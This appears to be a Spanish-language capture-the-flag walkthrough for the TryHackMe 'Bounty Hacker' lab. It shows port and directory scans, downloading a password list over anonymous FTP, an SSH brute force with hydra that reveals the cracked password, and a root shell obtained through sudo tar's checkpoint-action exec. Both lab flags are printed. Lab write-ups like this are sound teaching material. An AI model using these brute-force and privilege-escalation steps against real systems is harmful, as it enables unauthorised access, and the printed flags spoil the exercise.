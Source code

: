 ```yaml
---
icon: flag
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Bounty Hacker TryHackMe

### Escaneo de puertos

```shell
nmap -p- --min-rate 5000 -sV <IP>
```

### Gobuster

```shell
gobuster dir -u http://<IP>/ -w <WORDLIST>
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.112.52/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/images               (Status: 301) [Size: 313] [--> http://10.10.112.52/images/]
/server-status        (Status: 403) [Size: 277]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
```

### ftp

Info:

```
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
|_-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
```

Por lo que vemos hay un `ftp` que se puede entrar como anonimo...

```shell
ftp anonymous@<IP>
```

Una vez dentro si intentamos meter algun comando nos mete en modo pasivo, por lo que dentro de ese modo pondremos...

```shell
passive off
pasv off
```

Uno de los dos sirve, esperaremos entorno a unos 3 minutos hasta que nos eche de ese modo y podremos listar...

```shell
ls
```

Info:

```
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Jun 07  2020 .
drwxr-xr-x    2 ftp      ftp          4096 Jun 07  2020 ..
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
```

No descargamos esos 2 archivos...

```shell
get locks.txt
```

```shell
get task.txt
```

Una vez visto que uno es un diccionario de contraseñas y el otro te da la pista de un usuario `lib` tiraremos un hydra...

```shell
hydra -l lin -P locks.txt ssh://<IP> -t 64
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-12 15:13:37
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 26 tasks per 1 server, overall 26 tasks, 26 login tries (l:1/p:26), ~1 try per task
[DATA] attacking ssh://10.10.112.52:22/
[22][ssh] host: 10.10.112.52   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-12 15:13:40
```

Con estas credenciales nos conectamos por ssh...

```shell
ssh lin@<IP>
```

Una vez dentro leemos la primera flag...

> user.txt (flag1)

```
THM{CR1M3_SyNd1C4T3}
```

y si hacemos `sudo -l` veremos los permisos que tenemos como sudo...

```
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

Con esto podemos ser `root` de un comando, para saber todo esto nos iremos a la pagina de GTFOBins para ver lo que se puede hacer con estas cosas...

URL: https://gtfobins.github.io

```shell
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

Si ejecutamos eso seriamos `root` y ya podriamos leer la ultima flag...

> root.txt (flag2)

```
THM{80UN7Y_h4cK3r}
```

